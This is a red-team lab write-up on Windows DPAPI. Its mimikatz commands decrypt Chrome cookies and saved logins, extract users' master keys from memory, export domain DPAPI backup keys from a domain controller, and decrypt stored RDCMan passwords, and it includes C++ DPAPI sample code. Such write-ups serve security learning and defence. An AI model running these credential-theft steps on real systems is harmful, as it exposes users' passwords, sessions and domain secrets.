









# Reading DPAPI Encrypted Secrets with Mimikatz and C++

This lab is based on the article posted by [harmj0y](https://twitter.com/harmj0y) [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/). The aim is to get a bit more familiar with DPAPI, explore some of the mimikatz capabilities related to DPAPI and also play around with DPAPI in Windows development environment in C++.

Big shout out to [@harmj0y](https://twitter.com/harmj0y) for that I constantly find myself landing on his amazing blog posts and [@gentilkiwi](https://twitter.com/gentilkiwi) for giving this world mimikatz. 

## Overview

* DPAPI stands for Data Protection API.
* DPAPI for the sake of this lab contains 2 functions - for encrypting \(`CryptProtectData`\) and decrypting \(`CryptUnprotectData`\) data.
* Created to help developers that know little about cryptography make their programs better at securing users' data.
* Encrypts secrets like wifi passwords, vpn, IE, Chrome, RDP, etc.
* Transparent to end users - programs \(i.e Chrome use the two APIs\) with user's master key which is based on the user's actual logon password.

## Reading Chrome Cookies and Login Data

If you have compromised as system and run under a particular user's context, you can decrypt their DPAPI secrets without knowing their logon password easily with mimikatz.

In this case - let's check user's Google Chrome cookies for a currently logged on user:


```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```



Or Chrome's saved credentials:


```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```




## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user \(unless a bad admin comes by - more on this later\):


```csharp
dpapi::protect /data:"spotless"
```



Let's copy/paste the blob into a new file in HxD and save it as `spotless.bin`. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```



## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI master key, yet.

Let's try reading user's `spotless` chrome secrets while running as a local admin:


```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```


As mentioned, we see an error message suggesting `CryptUnprotectData` is having some issues decrypting the requested secrets:


If you escalated privilges, you can try looking for the master key in memory:


```text
sekurlsa::dpapi
```


We see there is the master key for user `spotless`:



Let's now use that master key for `spotless` to decrypt those Chrome secrets we could not earlier:


```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```



Additionally, note that if the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, their logon password and master key's GUIDs are known:


```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```




## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract DPAPI backup keys from the Domain Controller that will enable us to decrypt any user's master key which in turn will allow us to decrypt users' secrets.

While running as a `Domain Admin`, let's dump the DPAPI backup keys:


```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```



Using the retrieved backup key, let's decrypt user's `spotless` master key:


```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```




We can now decrypt user's `spotless` chrome secrets using their decrypted master key:


```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```



## Using DPAPIs to Encrypt / Decrypt Data in C++

### CryptProtectData

The below code will use `CryptProtectData` to encrypt a set of bytes that represent a string `spotless`and write the encrypted blob to the file on the disk:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <dpapi.h>

int main()
{
	DATA_BLOB plainBlob = { 0 };
	DATA_BLOB encryptedBlob = { 0 };
	BYTE dataBytes[] = "spotless";
	HANDLE outFile = CreateFile(L"c:\\users\\mantvydas\\desktop\\encrypted.bin", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
	plainBlob.pbData = dataBytes;
	plainBlob.cbData = sizeof(dataBytes);
	
	CryptProtectData(&plainBlob, NULL, NULL, NULL, NULL, CRYPTPROTECT_LOCAL_MACHINE, &encryptedBlob);
	WriteFile(outFile, encryptedBlob.pbData, encryptedBlob.cbData, NULL, NULL);

	return 0;
}
```

Below is a comparison between the blobs for the data `spotless` created with mimikatz and my c++:



We can now try to decrypt our binary blob file using mimikatz as we did earlier with:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\encrypted.bin" /unprotect
```


We can see the decryption produced the following output:


```csharp
73 70 6f 74 6c 65 73 73 00
```


...which is `spotless`, represented in bytes.

### CryptUnprotectData

We can now try to decrypt the data blob we created with mimikatz earlier when we encrypted the  string `spotless`

We will use the updated code :

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <dpapi.h>

int main()
{
	DATA_BLOB plainBlob = { 0 };
	DATA_BLOB encryptedBlob = { 0 };
	BYTE dataBytes[] = "spotless";
	BYTE inBytes[300] = {0};
	BYTE outBytes[300] = {0};
	HANDLE outFile = CreateFile(L"c:\\users\\mantvydas\\desktop\\encrypted.bin", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE inFile = CreateFile(L"c:\\users\\mantvydas\\desktop\\spotless.bin", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD fileSize = 0; 

	//encrypt
	plainBlob.pbData = dataBytes;
	plainBlob.cbData = sizeof(dataBytes);
	CryptProtectData(&plainBlob, NULL, NULL, NULL, NULL, CRYPTPROTECT_LOCAL_MACHINE, &encryptedBlob);
	WriteFile(outFile, encryptedBlob.pbData, encryptedBlob.cbData, NULL, NULL);
	
	//decrypt
	fileSize = GetFileSize(inFile, NULL);
	ReadFile(inFile, encryptedBlob.pbData, fileSize , NULL, NULL);
	encryptedBlob.cbData = fileSize;
	CryptUnprotectData(&encryptedBlob, NULL, NULL, NULL, NULL, 0, &plainBlob);

	return 0;
}
```

We can see that the decryption was successful:



### Decrypting Remote Desktop Connection Manager Passwords from .rdg

It's possible to decrypt passwords from an .rdg file that is used by Remote Desktop Connection Manager and below shows the process.

I have saved one connection to `DC01.offense.local` using credentials `offense\administrator` with a password `123456` \(RDCMan for security reasons show a more than 6 start in the picture\) into a file `spotless.rdg`:



If we look at he `spotless.rdg`, we can see one our admin credentials stored \(username in plaintext\) and the password in base64:


Let's decode the base64:

```csharp
echo AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAA0odLHavOPUOnyENNv8ru+gAAAAACAAAAAAAQZgAAAAEAACAAAACVZ0Qg0gf+sYztEiGlD1BfhlJkEmdgMhBdOLXDGNkPvAAAAAAOgAAAAAIAACAAAADiIyAzYqd2zcv5OBNhfxv0v2BwxM4gsJpWfvmmTMxdGRAAAAC8dwNLyhgFHZwGdEVZ5aRIQAAAAPUIoCdUz0vCV7WtgBeEwBumpcqXJ++CJOxBRQGtRLpY7TjDL5tIvdWqVR62oqXNsG4QwCRrusnhECgxzjE4HEU= | base64 -d | hexdump -C
```

Below shows a binary blob from `spotless.bin` we played with earlier \(top screen\) and the decoded base64 string \(bottom screen\). Note how the first 62 bytes match - this is a clear giveaway that the .rdg password is encrypted using DPAPI:


Let's copy the hex bytes of the decoded base64 string found in `spotless.rdg` and save it as a binary file `spotless.rdg.bin` and try to decode it using the code we played with earlier:



We can see that we were able to successfully decrypt the RDP password stored in `spotless.rdg`:


Same technique could be used to decrypt Chrome's cookies/logins, wifi passwords and whatever else Windows stores encrypted with DPAPI.

Note that this exercise using C++ was possible because DPAPI uses currently logged on user's credentials to encrypt/decrypt the data. If we wanted to decrypt a blob encrypted by another user, we would need to revert to the previous tactics \(using mimikatz\) since this C++ code does not deal with other users' master keys.

A good way to enumerate DPAPI goodies on a compromised system is to use harmj0y's [SeatBelt](https://github.com/GhostPack/Seatbelt/commit/5b3e69c16cc1668622a0e666162b35cb9f7243ca).

## References










